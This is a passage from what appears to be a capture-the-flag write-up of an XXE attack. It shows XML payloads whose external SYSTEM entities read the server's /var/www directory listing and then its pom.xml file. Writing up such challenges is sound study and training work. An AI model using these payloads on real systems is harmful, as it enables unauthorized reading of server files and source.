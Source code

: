 By default, the web root directory (as in Linux) is located under the `/var/www`, so we try to change the previous SYSTEM keyword to `file:///var/www`
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ServerDetails [
<!ENTITY statenisland SYSTEM "file:///var/www">
]>
...
```
![image](/assets/sans-offensive-ops-25/20250319010746.png)

Found several files and directories
- `.gitignore`
- `.m2`
- `/files`
- `pom.xml`
- `/src`
- `/target`
The `pom.xml` might contain interesting information, so let's check that out.
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ServerDetails [
<!ENTITY statenisland SYSTEM "file:///var/www/pom.xml">
]>
```